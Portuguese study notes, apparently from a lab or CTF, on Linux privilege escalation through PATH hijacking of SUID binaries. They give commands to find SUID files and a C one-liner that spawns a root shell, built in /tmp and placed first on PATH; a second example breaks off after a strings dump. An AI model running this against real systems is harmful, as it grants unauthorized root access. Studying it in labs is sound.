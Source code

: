 

## Environment Variables

- Variáveis disponíveis do sistema e que são herdadas
- `env` -> mostra as variáveis de ambiente

### Exploração 1

```
find / -type f -perm -04000 -ls 2>/dev/null

strings /usr/local/bin/suid-env
/lib64/ld-linux-x86-64.so.2
5q;Xq
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
service apache2 start

# Está executando o apache2 a partir do path
# Podemos mudar o path do service e executar um comando malicioso
# Executar o onliner em c abaixo para gerar um service.c na tmp

gcc /tmp/service.c -o /tmp/service

export PATH=/tmp:$PATH
# Mudando o path para chamar nosso serviço

echo $PATH
/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/sbin:/usr/sbin:/usr/local/sbin

/usr/local/bin/suid-env
# Depois é só executar
```

```
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
```


### Exploração 2

```
strings /usr/local/bin/suid-env2
/lib64/ld-linux-x86-64.so.2
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
```